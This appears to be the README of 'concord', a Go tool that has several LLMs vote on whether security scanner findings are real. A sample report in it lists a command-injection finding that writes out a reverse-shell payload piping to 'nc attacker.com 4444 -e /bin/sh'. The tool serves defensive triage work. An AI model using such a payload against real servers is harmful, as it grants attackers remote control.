

# concord


`concord` is a Go CLI that triages security scanner findings with multiple LLMs.
It ingests scanner output (SARIF, JSON, CSV, Markdown, XLSX), lets the models
read the flagged source with sandboxed file tools, asks up to four models to
judge each finding independently, takes a majority vote, and breaks ties with a
panel of judges (persona-driven reviewers whose verdicts are combined by the
same majority vote).

It reads and writes local files only. No backend, no LLM proxy, no telemetry.

## How it works



## Why multi-model voting

A single model's verdict on a finding is unstable: it depends on the model, the
prompt, and the order in which evidence was read. `concord` treats triage as an
ensemble problem instead:

- Up to four preset models (Claude, Gemini, OpenAI, Azure OpenAI) judge each
  finding independently, and custom models — a local vLLM server being the
  usual case — vote alongside them when configured (see
  [Custom models (e.g. local vLLM)](#custom-models-eg-local-vllm)).
- If two or more voters agree on a category (real, not-real, needs-more-context),
  the most conservative verdict in that category stands: when the vote splits,
  the finding is treated as more real, never as safe (`CONFIRMED_REAL` over
  `LIKELY_REAL`, `UNLIKELY` over `NOT_EXPLOITABLE`).
- If the vote ties, a **judge panel** convenes. Each judge is a persona (a
  focus/personality lens) on a model — several judges can even run on one model
  and still disagree usefully — and the panel's verdicts are combined with the
  same majority vote to produce the final verdict and the deciding factor.
- With only one provider, `--analyst` lenses apply the same persona idea to the
  vote itself: extra voters on your single model restore a real ensemble
  (see [Getting an ensemble from one model](#getting-an-ensemble-from-one-model--analyst)).
- A model or judge that fails or times out drops out of its vote rather than
  aborting the finding.

## What it does

- Four-model triage with a majority vote, a persona-driven judge panel that
  breaks ties, and `--analyst` lenses for a real ensemble on a single model.
- On-demand, tool-calling source reading, sandboxed to `--srcroot`.
- Two context strategies via `--context-strategy`: `shared` (one explorer
  reads the repo, all voters share the brief, cheaper) and `per-model` (each
  model crawls).
- Live TUI dashboard on interactive terminals; `--plain` for plain output.
- Per-finding agentic transcripts (every tool call with its args and result,
  JSONL) in `<output-dir>/transcripts/`.
- Live cost accounting: every model call is priced and the total accrues on
  screen as the run proceeds.
- Inputs, SARIF, JSON, CSV, Markdown, XLSX.
- Outputs, `results.json` (with a `concordAnalysis` block per finding) and
  a human-readable `report.md`.

## How a run looks


The same run writes a `report.md` with the per-model verdicts, reasoning, and
cost breakdown. A trimmed excerpt from the demo run:

```markdown
# Security Scan Triage Report

**Date:** 2026-09-15 14:53:19
**Input file:** `examples/findings.sarif`
**Models:** claude (us.anthropic.claude-sonnet-4-5-20250929-v1:0)
**Analysts:** strict, business
**Context strategy:** shared (srcroot `examples/sample-app`)
**Effort:** low
**Findings analysed:** 2
**Total cost:** $0.3318

## Summary

- 🔴 CONFIRMED_REAL: 1
- 🟠 LIKELY_REAL: 0
- 🟡 UNLIKELY: 0
- 🟢 NOT_EXPLOITABLE: 1
- 🔵 NEEDS_MORE_CONTEXT: 0

---

## 🔴 F001 — Command injection

**File:** `main.go` line 30
**Severity:** HIGH  |  **CWE:** CWE-78  |  **CVSS 4.0:** 10.0 Critical
**CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H`
**Final verdict:** CONFIRMED_REAL  (agreement: all)
**Classification:** TRUE_POSITIVE

CONFIRMED: Unauthenticated command injection in the `/ping` endpoint allows
arbitrary code execution; the vulnerability is real and exploitable despite
the intentional demo context.

### Analysis

**Exploit scenario:** Attacker sends `GET /ping?host=example.com;whoami` to the
unauthenticated endpoint. The shell interprets metacharacters, executing
arbitrary commands with the web service's privileges. A reverse shell can be
spawned with `?host=x|nc attacker.com 4444 -e /bin/sh`, granting full
interactive control of the server.

**Triage reasoning:** Textbook command injection with no mitigations. While the
code comments mark it as intentional demo/vulnerable code, the vulnerability is
functionally real: the code exists, compiles, runs, and is exploitable if
deployed. The `/ping` endpoint is a direct HTTP route with zero authentication,
validation, or sandboxing.

**Counter-argument considered:** The code is explicitly documented as a
demo/vulnerable application "not intended for production," so calling this a
real vulnerability misrepresents its purpose. It is educational code that
SHOULD be vulnerable by design.

**Why the counter-argument fails:** The challenge is valid regarding intent, but
doesn't change the technical verdict. This IS a real, exploitable command
injection vulnerability — the fact that it is intentional for training purposes
affects prioritization and remediation, not whether the vulnerability exists.

| Role | Verdict | Cost | Notes |
|---|---|---|---|
| explorer | — | $0.0278 | shared context gathering |
| claude (voter) | CONFIRMED_REAL | $0.0450 | unvalidated `/ping` host param flows to `sh -c`; zero mitigations |
| strict (analyst) | CONFIRMED_REAL | $0.0470 | grounded source→sink trace; evidence clears the bar |
| business (analyst) | CONFIRMED_REAL | $0.0497 | real RCE; demo intent affects priority, not the verdict |

## 🟢 F002 — SQL injection

**File:** `users.go` line 22
**Severity:** MEDIUM  |  **CWE:** CWE-89  |  **CVSS 4.0:** 0.0 None
**CVSS vector:** `CVSS:4.0/AV:N/AC:H/AT:P/PR:N/UI:N/VC:N/VI:N/VA:N/SC:N/SI:N/SA:N`
**Final verdict:** NOT_EXPLOITABLE  (agreement: all)
**Classification:** FALSE_POSITIVE

SQL injection pattern in the `/users` endpoint is NOT exploitable due to
robust allowlist validation; refactor to parameterized queries for
maintainability (LOW priority).

### Analysis

**Counter-argument considered:** Could the regex validation be bypassed via
encoding tricks, null bytes, or multi-line attacks — or exploit an
implementation flaw in Go's regexp engine?

**Why the counter-argument fails:** Go's regexp package is well-tested and the
anchored pattern `^[0-9,]+$` is straightforward with no known bypasses. No SQL
dialect permits injection using only numeric digits and commas — SQL syntax
fundamentally requires metacharacters, operators, keywords, or quotes. The
validation is effective and the finding is not exploitable as deployed.

| Role | Verdict | Cost | Notes |
|---|---|---|---|
| explorer | — | $0.0273 | shared context gathering |
| claude (voter) | NOT_EXPLOITABLE | $0.0419 | anchored allowlist rejects every SQL metacharacter |
| strict (analyst) | NOT_EXPLOITABLE | $0.0446 | allowlist validation holds; code smell only |
| business (analyst) | NOT_EXPLOITABLE | $0.0484 | effective as deployed; parameterize for maintainability |
```

## Install

Download a prebuilt binary from the [releases page](https://github.com/seschis/concord/releases).

Or build from source (Go 1.26+):

```bash
go build -o concord ./cmd/concord
```

## Usage

```bash
# Metadata-only, whichever models have credentials
concord -o ./out findings.sarif

# Shared-context (default): one explorer reads the repo, all voters share the brief
concord --srcroot /path/to/repo -o ./out findings.sarif

# Per-model: each model crawls the repo itself
concord --srcroot /path/to/repo --context-strategy per-model -o ./out findings.sarif

# Parse and normalize findings only, no model calls
concord --dry-run findings.csv

# The built-in demo: two findings against examples/sample-app, with analyst lenses
concord --analyst strict --analyst business --srcroot examples/sample-app -o ./demo-out --effort low examples/findings.sarif
```

Run `concord --help` for all flags.

## Breaking ties (`--judge`)

When the voters tie, a **judge panel** breaks it. A judge is a persona — a
focus/personality lens (e.g. a strict security reviewer vs. a business-impact
reviewer) — running on a model. Because the persona is the primary axis of
diversity, you can run several judges on the *same* model and still get useful
disagreement, which matters when you only have credentials for one LLM.

All judges default to the preferred model; `--judge-model` pins a specific one.
Built-in personas are `adjudicator`, `strict`, `business`, and `codeflow`; pass
`name=/path/prompt.md` to add your own focus file. The panel's verdicts are
combined with the same category-majority + conservative-tiebreak vote used for
the voters.

```bash
# Three personas, all on the default (preferred) model
concord --judge strict --judge business --judge codeflow -o ./out findings.sarif

# Mix models: business review on Gemini, the rest on the default
concord --judge strict --judge business --judge-model business=gemini -o ./out findings.sarif

# A custom persona from a file
concord --judge skeptic=./personas/skeptic.md -o ./out findings.sarif
```

With no `--judge` flags the panel is a single `adjudicator` judge (the legacy
adjudication prompt), so default behavior is unchanged.

## Getting an ensemble from one model (`--analyst`)

The whole value of `concord` is the ensemble, but the cross-model vote only kicks
in with two or more providers. If you have credentials for a single LLM, the vote
degenerates to one verdict (no tie, so the judge panel never fires). `--analyst`
fixes that: it adds **analyzer lenses** — the same personas as judges — that vote
as *extra voters on your one model*. Several lenses on the same model still reach
different verdicts, so you get a real majority vote, and it can even reach a tie
that convenes the judge panel.

Every analyst runs on the preferred model and votes as an ordinary voter, so the
existing vote and report handle it with no other change. In the default `shared`
strategy the analysts run single-shot over the one shared brief (a few extra
analysis calls, not extra repo crawls); `per-model` runs an agentic loop per
analyst. Built-in lenses are `strict`, `business`, and `codeflow`; pass
`name=/path/prompt.md` for your own lens.

```bash
# Three lenses on your single model: a real 4-way vote (1 model + 3 analysts)
concord --analyst strict --analyst business --analyst codeflow -o ./out findings.sarif

# Lenses plus a judge panel, so a single-model run uses the full machinery
concord --analyst strict --analyst business --judge strict --judge codeflow -o ./out findings.sarif

# A custom lens from a file
concord --analyst paranoid=./personas/paranoid.md -o ./out findings.sarif
```

With no `--analyst` flags the behavior is exactly as before (one voter per model).

## Extra architecture context (`--context-dir`)

`--srcroot` lets the models read the finding's own repo. But whether a finding
is actually exploitable often depends on code that lives somewhere else, an API
gateway that strips or rewrites a header, an auth service that validates a token,
a shared library in a sibling repo, a network policy that blocks a route. Without
that surrounding code a model has to guess, which is where both false positives
(flagging something a gateway already neutralizes) and false negatives (clearing
something that a downstream service actually trusts) come from.

`--context-dir` points the agents at additional read-only roots so they can
follow the real request path across repos instead of guessing. It is repeatable,
requires `--srcroot`, and each root is sandboxed like `--srcroot` is. The models
do not read everything up front, they get a short inventory of what exists and
open files on demand, so adding a large context set is cheap.

```bash
concord --srcroot /path/to/app \
  --context-dir /path/to/api-gateway \
  --context-dir /path/to/auth-service \
  -o ./out findings.sarif
```

A big context set is reachable but not discoverable, so a short human-written map
helps the models know where to look. Put a `TRIAGE_CONTEXT.md` at the top of a
context root (it is picked up automatically) or pass one with `--context-guide`.
It should say, in paths relative to the context roots, where the gateway,
services, and policies live.

## Sharing context bundles (export/import)

Assembling that set of repos and docs by hand on every machine is the tedious
part, especially in CI or for a teammate who does not have all the repos cloned.
`concord context export` and `context import` move a whole context directory
around as a single `.tar.gz`.

Export scans a context directory one level deep. For each git repo it records
the `origin` remote URL and the exact commit SHA in a JSON manifest rather than
copying the tree, and it packs loose documents (guides, diagrams, notes)
directly. Repos with no remote origin are skipped, since they cannot be
re-cloned, and hidden directories are ignored so caches and stray VCS metadata
never leak in. Every repo and file is listed as it is processed.

```bash
concord context export --context-dir ./context -o context-bundle.tar.gz
```

Import re-clones each recorded repo (shallow and pinned to the manifest's commit
by default, `--latest` for current HEAD, `--deep-clone` for full history) and
restores the loose files, reproducing the same layout. A repo that fails to clone
(permissions, network) becomes a warning instead of aborting the import.

```bash
concord context import context-bundle.tar.gz -o ./context
```

Then point `--context-dir` at the restored directory (or its subdirectories) for
the triage run.

## Cost and caching

Every model call is priced against a per-model rate card (Claude cached input is
priced separately from normal input), so the total accrues live in the TUI and
lands in the report as a per-model breakdown. Anthropic prompt caching is on by
default on both the direct and Bedrock Claude paths; it silently no-ops below a
model's minimum cacheable prefix. On the agentic paths,
`--enable-context-pruning` trims older large tool results from the re-sent
context to cut explorer cost.

## Credentials

Each model is used only if its credential resolves; unresolvable ones are
skipped with a reason, and at least one model is required.

- Claude, `ANTHROPIC_API_KEY` (or `--api-key`)
- Gemini, `GOOGLE_API_KEY` (or `--google-api-key`)
- OpenAI, `OPENAI_API_KEY` (or `--openai-api-key`)
- Azure, `AZURE_OPENAI_API_KEY` + `AZURE_OPENAI_ENDPOINT` (or `--azure-*` flags)

Claude can also run through Amazon Bedrock with `--bedrock` (auto-enabled when
`CLAUDE_CODE_USE_BEDROCK` or `AWS_BEARER_TOKEN_BEDROCK` is set). Auth flows
through the AWS credential chain, a Bedrock API key in `AWS_BEARER_TOKEN_BEDROCK`
takes precedence, otherwise the SigV4 chain (`AWS_PROFILE` / SSO / env / IAM
role). A region is required. The model is a Bedrock/inference-profile ID via
`--bedrock-model`.

## Custom models (e.g. local vLLM)

The presets are data, not code. Every model is a `ModelSpec` — protocol,
endpoint, model id, credentials, context window, price — built through one
factory, so any model that speaks the **openai** or **anthropic** wire
protocol (local vLLM servers are the usual case) can vote alongside the
presets with no code change. `gemini` and `azure` are preset-only.

Define a model in a standing `concord.toml`, or one-shot with `--add-model`.

### concord.toml

Concord looks for `concord.toml` in the working directory, then the input
file's directory, unless `--config` points at one:

```toml
[[models]]
name = "qwen"
protocol = "openai"
endpoint = "http://127.0.0.1:8000/v1"  # openai endpoint is the root including /v1
model = "Qwen3.8-27B"
context_window = 262144
```

A commented example covering the other keys lives in
[examples/concord.example.toml](examples/concord.example.toml). Rules:

- `name` must match `[a-z0-9-]`; the judge/analyst persona names
  `adjudicator`, `strict`, `business`, and `codeflow` are reserved and
  rejected at load.
- `context_window` is required for custom models and must be at least 4096.
- `price_in` / `price_out` (USD per 1M tokens) must be set together.
- Unknown keys and duplicate names in one file are hard errors (the decode is
  strict, so typos fail at load).

A file entry can also *override a preset* by reusing its name. Fields merge
per model with precedence **flag > file > preset**: `--add-model` overrides
the file, which overrides the built-in preset.

### One-shot `--add-model`

The same vLLM model without a file:

```bash
concord --add-model "qwen,protocol=openai,endpoint=http://127.0.0.1:8000/v1,model=Qwen3.8-27B,context_window=262144" \
  -o ./out findings.sarif
```

`--add-model "name,key=value,..."` is repeatable. Keys: `protocol`,
`endpoint`, `api_key`, `model`, `context_window`, `price_in`, `price_out`,
`bedrock`, `region`, `api_version`.

### Semantics

- **Endpoint.** An `openai` endpoint is the API root **including `/v1`** (the
  client appends `/chat/completions`); an `anthropic` endpoint is any base URL
  (the SDK normalizes it); an empty endpoint means the vendor default.
- **api_key.** A literal key or `env:NAME`; omitted falls back to the
  protocol's default credential environment. A keyless local endpoint — an
  explicit `endpoint` with no key resolvable anywhere — still runs on a
  placeholder token.
- **context_window.** The effective max output per call is
  `min(--max-tokens, window/2)`, and the agentic loop and the shared explorer
  prune their re-sent context once it approaches the window.
- **Pricing.** An explicit `price_in`/`price_out` pair wins over the built-in
  rate card. A model with no price at all costs $0 and carries a visible
  **unpriced** marker in the stdout banner (`Active models: ... (unpriced:
  qwen)`), the report header (`**Unpriced models:** ...`) and its per-model
  row (`(unpriced)`), and the TUI header. `results.json` `metadata.models` is
  a structured list: `name`, `model`, `context_window`, `priced`.
- **Voting.** Every resolvable model votes, in preset-then-declaration order;
  the first voter is the preferred model (judge default, analyst base, and the
  shared-context gatherer). `--no-model NAME` (repeatable) skips a model by
  name.

### Flag matrix

| Flag | Meaning |
|---|---|
| `-m`, `--model` | Claude model id (the claude preset); unchanged by the codex→openai rename |
| `--api-key` | Anthropic API key (else `ANTHROPIC_API_KEY`) |
| `--claude-endpoint` | Anthropic-compatible endpoint URL |
| `--gemini-model` / `--google-api-key` | gemini preset |
| `--openai-model` / `--openai-api-key` / `--openai-endpoint` | openai preset |
| `--azure-deployment` / `--azure-api-key` / `--azure-endpoint` / `--azure-api-version` | azure preset (unchanged) |
| `--no-claude` / `--no-gemini` / `--no-openai` / `--no-azure` | skip a preset |
| `--config` | model config file (else auto-discovered) |
| `--add-model` | one-shot model spec (repeatable) |
| `--no-model` | skip a model by name (repeatable) |

### From `codex` to `openai`

The `codex` name is now `openai`: the preset name, the flags above, and the
report rows. `--codex-model`, `--codex-api-key`, and `--no-codex` still work
as deprecated aliases (hidden from `--help`, they print a deprecation note
when used), and `--judge-model ...=codex` still resolves to the openai voter.

## Status

Experimental. Everything in the [design](DESIGN.md) is implemented: ingest for
all five formats, the agentic tool loop, the quad-model vote and
judge-panel tie-breaking, both report writers, context bundles, and goreleaser
publishing to GitHub releases. Known gap: Gemini's `thinking_budget` is passed to langchaingo
v0.1.14 but not honored by it (see [DESIGN.md](DESIGN.md)).

## License

Apache 2.0 — see [LICENSE](LICENSE).
